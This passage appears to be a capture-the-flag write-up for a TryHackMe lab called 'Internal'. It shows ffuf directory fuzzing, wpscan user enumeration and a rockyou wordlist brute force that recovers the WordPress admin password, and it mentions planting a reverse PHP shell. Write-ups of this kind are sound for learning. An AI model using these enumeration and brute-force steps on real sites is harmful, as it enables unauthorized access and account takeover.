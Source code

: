 As usual, port 22 (SSH) and port 80 (HTTP).

A normal Apache page is hosted when visiting the IP on the web. Upon Fuzzing, we do get some pages.

```
┌──(kali㉿kali)-[~/Desktop/THM/Internal]
└─$ ffuf -u http://10.10.200.223/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

blog                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 412ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 412ms]
phpmyadmin              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 418ms]
wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 412ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 423ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 418ms]
```

So, it is known that WordPress is used by the site. We can use wpscan to find any vulnerabilities with this one.

```
┌──(kali㉿kali)-[~/Desktop/THM/Internal]
└─$ wpscan --url http://internal.thm/wordpress -e

...
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Login Error Messages (Aggressive Detection)

```

We know a user for the site, admin.

Using wpscan, we can find the admin password as well.

```
┌──(kali㉿kali)-[~/Desktop/THM/Internal]
└─$ wpscan --url http://internal.thm/wordpress -U admin -P /usr/share/wordlists/rockyou.txt 


...
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

With this, we login to the wordpress page where we can add our reverse PHP code to gain shell.
